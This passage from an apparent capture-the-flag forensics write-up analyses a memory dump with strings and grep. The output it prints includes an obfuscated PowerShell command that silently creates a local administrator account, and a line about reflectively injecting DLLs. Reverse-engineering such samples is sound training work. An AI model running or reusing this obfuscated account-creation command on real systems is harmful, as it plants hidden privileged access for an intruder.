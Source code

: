 Here, the culprit of the whole attack was indeed `monkey.doc.ps1`. Now we just have to find the password of the new user. Since the malicious executable was heavily focused on powershell commands, we can filter for powershell commands in the notepad process again.

```
└─$ strings pid.4044.dmp | grep "powershell"          
powershell.exe
powershell/
powershell.exe
powershell.exe
powershell.exe
powershell/
ly loaded EXE won't kill the powershell process when it exits, it will just kill its own thread.
ly loaded EXE won't kill the powershell process when it exits, it will just kill its own thread.
powershell $PKjAU=  ") )'dd'+'a/ n'+'i'+'mda'+' sro'+'t'+'artsinimda'+' p'+'uorglacol'+' te'+'n;d'+'d'+'a/ 3r'+'uce5-r3'+'pu'+'5'+' nimda resu '+'te'+'n'(( )'x'+]31[dIlLehs$+]1[diLLehs$ (."; .( $Env:CoMsPeC[4,24,25]-JOIn'')(-join (  gi  vaRiaBlE:pKjAU).valUe[-1 .. - ( (  gi  vaRiaBlE:pKjAU).valUe.leNgth) ] )
Reflectively loads a Windows PE file (DLL/EXE) in to the powershell process, or reflectively injects a DLL in to a remote process.

--- SNIP ---
```

Bingo, a obfuscated powershell command can be identified. Deobfuscating it, the password can be obtained as `5up3r-5ecur3`.

![code](/assets/posts/ductf2024/code.png)
